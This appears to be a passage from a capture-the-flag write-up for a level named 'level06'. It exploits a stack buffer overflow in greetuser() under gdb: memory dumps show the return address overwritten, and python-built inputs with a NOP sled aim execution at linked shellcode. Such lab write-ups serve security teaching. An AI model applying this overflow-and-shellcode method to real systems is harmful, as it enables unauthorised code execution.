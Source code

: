     Breakpoint 1, 0x08048581 in greetuser ()
    (gdb) c
    Continuing.
    Bienvenue AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

    Breakpoint 2, 0x08048591 in greetuser ()
    (gdb) x/44wx $esp
    0xbffffaf0:     0xbffffb00      0xbffffb50      0xbffffb14      0x0804993c
    0xbffffb00:     0x6e656942      0x756e6576      0x41412065      0x41414141
    0xbffffb10:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb20:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb30:     0x42424141      0x42424242      0x42424242      0x42424242
    0xbffffb40:     0x42424242      0x42424242      0x42424242      0x42424242
    0xbffffb50:     0x41004242      0x41414141      0x41414141      0x41414141
    0xbffffb60:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb70:     0x41414141      0x41414141      0x42424242      0x42424242
    0xbffffb80:     0x42424242      0x42424242      0x42424242      0x42424242
    0xbffffb90:     0x42424242      0x42424242      0x00000000      0x080482da

    And indeed, we wrote over the return address:

    (gdb) c
    Continuing.

    Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()

    We have our overflow, now let's get a payload somewhere in memory.

    We're going to use the shellcode found here: http://shell-storm.org/shellcode/files/shellcode-827.php
    It's so small that it can fit in the `name` field of the user. And because we know where the field is in memory, we can reference it quite easily. Let's do that:

    First, let's find a suitable address to jump to and let's find the correct length we need to link the payload successfully. With the french greeting message, we can roll with:

    (gdb) r $(python -c "print '\x90'*17 + 'A'*23 + ' ' + 'B'*26 + 'CDEF'")
    Starting program: /levels/level06 $(python -c "print '\x90'*17 + 'A'*23 + ' ' + 'B'*26 + 'CDEF'")
    /bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
    Bienvenue AAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBCDEF

Breakpoint 2, 0x08048591 in greetuser ()
    (gdb) x/44 $esp
    0xbffffaf0:     0xbffffb00      0xbffffb50      0xbffffb14      0x0804993c
    0xbffffb00:     0x6e656942      0x756e6576      0x90902065      0x90909090
    0xbffffb10:     0x90909090      0x90909090      0x41909090      0x41414141
    0xbffffb20:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb30:     0x42424141      0x42424242      0x42424242      0x42424242
    0xbffffb40:     0x42424242      0x42424242      0x42424242      0x46454443
    0xbffffb50:     0x90909000      0x90909090      0x90909090      0x90909090
    0xbffffb60:     0x41414190      0x41414141      0x41414141      0x41414141
    0xbffffb70:     0x41414141      0x41414141      0x42424242      0x42424242
    0xbffffb80:     0x42424242      0x42424242      0x42424242      0x42424242
    0xbffffb90:     0x44434242      0x00004645      0x00000000      0x080482da
